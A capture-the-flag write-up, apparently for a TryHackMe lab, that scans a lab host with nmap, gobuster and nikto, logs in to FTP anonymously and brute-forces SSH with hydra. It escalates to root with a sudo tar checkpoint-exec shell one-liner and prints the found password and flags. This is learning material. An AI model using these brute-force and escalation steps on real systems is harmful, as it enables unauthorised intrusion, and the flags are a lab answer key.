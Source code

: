 # Bounty Hacker

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, nikto, hydra

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.153.213

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

--script SCRIPT: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap --script vuln -sV -oN nmap.txt 10.10.153.213
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3),<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18),<br>

ftp anonymous login allowed

Enumerate hidden directories on website
```
gobuster dir -u 10.10.153.213 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

No hidden directories found

Run Nikto web vuln scanner
```
nikto host --url 10.10.153.213
```

![1.2](./imgs/1.2.png)

### 2. FTP

Anonymous login to ftp
```
ftp anonymous@10.10.153.213
```

2 files found in ftp

![2.1](./imgs/2.1.png)

locks.txt might be possible passwords

### 3. BRUTE FORCE SSH

Use hydra to brute force ssh login
```
hydra -l "lin" -P locks.txt ssh://10.10.153.213 
```

![3.1](./imgs/3.1.png)

**USERNAME**: lin
**PASSWORD**: RedDr4gonSynd1cat3

![3.2](./imgs/3.2.png)

**USER FLAG**: THM{CR1M3_SyNd1C4T3}

### 4. PRIVILEGE ESCALATION

See sudo privileges for lin
```
sudo -l
```

![4.1](./imgs/4.1.png)

lin can run /bin/tar as root

From https://gtfobins.github.io/gtfobins/tar/#sudo
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![4.2](./imgs/4.2.png)

**ROOT FLAG**: THM{80UN7Y_h4cK3r}
